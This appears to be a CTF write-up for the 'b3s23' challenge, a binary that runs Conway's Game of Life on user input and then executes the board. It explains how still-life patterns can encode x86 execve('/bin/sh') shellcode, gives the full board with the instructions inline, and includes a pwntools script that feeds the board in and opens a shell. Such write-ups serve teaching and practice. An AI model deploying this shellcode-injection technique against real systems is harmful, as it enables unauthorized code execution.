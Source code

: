 # bs323

> Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.

## Game of Life
Conway's Game of Life is a famous cellular automata game. The rules are simple. The game takes place on a square grid, and a set of cells is initially colored black, or alive. The rest of the cells are considered dead. The game proceeds in steps. Each turn, you count each cell's number of live neighbors. If a live cell has 0 or 1 neighbors, it dies (turns white) in the next step (underpopulation). If a live cell has 4 or more neighbors, it also dies in the next step (overpopulation). A dead cell with exactly three neighbors becomes alive (reproduction).

Basic interaction with the binary quickly indicates that the program interprets the input as the set of live cells on a Game of Life board. After some minor reverse engineering, we see that The board is stored as a 12100-bit array, in 110 rows of 110 bits each. The binary runs 15 iterations of Game of Life on the board, and then it jumps to the first byte of the board data structure. So we need to create a board that will have shellcode at the start of the board.

This block has the implementation of the basic Game of Life rules, first counting a cell's neighbors and then deciding whether it was alive in the next step.
![Game of Life block]
(images/isgameoflife.png)

## Shellcode Evolution
Since the entire point of Game of Life is that the evolution is difficult to predict(in fact, it's capable of representing Turing-complete computation), we need to set up the board carefully so it will evolve predictably. The easiest way to do this is to place only static structures on the board. Game of Life enthusiasts have created catalogs of all the small static patterns, which are known as "still-lifes". See http://codercontest.com/mniemiec/p1.htm for one useful example.

Execution effectively occurs across the board's rows, so we can place the code without regard to its Game of Life evolution and then use the surrounding rows to make the executing row static. We'll have to use jumps to get from each executing row to the next.

## Shellcode Choice
The shortest approach is to put code that calls read with the board as the destination and then send the real shellcode. Unfortunately, we didn't think of this during the competition, so we just put standard shellcode (`execve("/bin/sh", {"/bin/sh, NULL"}, ))`) on the board.

## Still-life Construction
Constructing still-lifes containing arbitrary code is actually somewhat difficult. For example, we could not find a small still-life that we could place on the board to create a sequence of five or more consecutive one-bits (live cells). So we just avoided any instructions or data with that many ones in a row.

One useful primitive to decouple adjacent instructions is the instruction `add al, 0`, which is represented as `0x04 0x00` in machine code. This instruction allows you to separate any potentially problematic adjacent instructions, because essentially all the bits are off.

One other useful primitive to combine still-life patterns is that adjacent walls (vertical sequences of live cells) do not interfere, as long as they match. So the following arrangement of two still-life patterns (the snake and the block) works:
```
xx x xx
x xx xx
```

Of course, any patterns separated by a gap of two columns will not interfere as well.

## Board
Below, we have the board we used, with shellcode inline. Executing lines are marked as beginning with `>` characters and ending with `|` characters.

```
>xxx   x   xxxx  | JNO $+1Eh;
x   x x x  x  x                       x xx x xx x xx
 x  x x x                       >   xxx x xx x xx x  | JMP $+5A;
  x x xx                           x               xxx
   x                               xx                x 

PUSH $0; PUSH $68h; XOR EAX, EAX; OR AL, $2Fh; ADD AL, $0; JMP $+55h;                       x   x
   xx xx           xx xx                   x          xx   xx x  x                  x xx x x x x x 
>  xx x x          xx x x  xx x     xx   xxx          xx    x xxxx     x          xxx x xx x x x x|
      x x             x x  x xx     xx  x                   x         x x        x          x   x
      xx              xx                xx                 xx   xx     x         xx
                                                                xx

OR AH, $73h; PUSH AX; PUSH $0Bh; POP EAX; JMP $+56h;                              x   
                           x              x      xx xx                    x xx x x x xx
>       x       xx  xx   xxx  xx xx  xx  x x     xx x x     x xx x xx   xxx x xx x x xx |
       x x      xx  xx  x     xx xx  xx   x         x x     xx x xx x  x          x    
        x               xx                          xx                 xx         

PUSH $6E69626Fh; ADD AL, 0; PUSH ESP; POP EBX; JNO $+56h;
                                            xx     x                                  x   x
       xx xx   xx x  x xx  xx                x    x x          xx     xx xx xx x     x x x x xx
>      xx x     x xxxx xx   x  xx x  x xx xxx      x           x x x   x xx xx xxx   x x x x xx |
          x     x          x   x xx  xx x x                       xx   x          x   x   x
          xx   xx   xx xx  xx                                         xx         xx
                    xx xx                                                     
PUSH ESP; POP ECX; XOR EDX, EDX; PUSH EDX; PUSH EBX; PUSH ESP; POP ECX; INT $80h;
                                                                 x
     xx           xx  xx     x xx    xx  xx   x   xx xx      xx x x
>    x x x   x xx  x  xx   xxx x  x  x x  x  x x  xx x x x   x xx  x     x          xx  xx xx |
        xx   xx x x       x      xx     xx    x         xx        xx    x x         xx  xx xx
                 x        xx                                             x
```

## Script
The following Python code converted this board into the program input and ran the exploit:

```
import re
from pwn import *

f = open('board.txt')
s = f.read()

rows = s.split('\n')
coords = [[(a.start(),i) for a in re.finditer('x', rows[i])] for i in range(len(rows))]
flatcoords = reduce(lambda x,y: x+y, coords)

tube = process("./b3s23")

for (x,y) in flatcoords:
    tube.writeline('{},{}'.format(x,y))

tube.writeline('lol')

for i in range(15):
    tube.recvuntil('01110001000111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000')

tube.interactive()
```
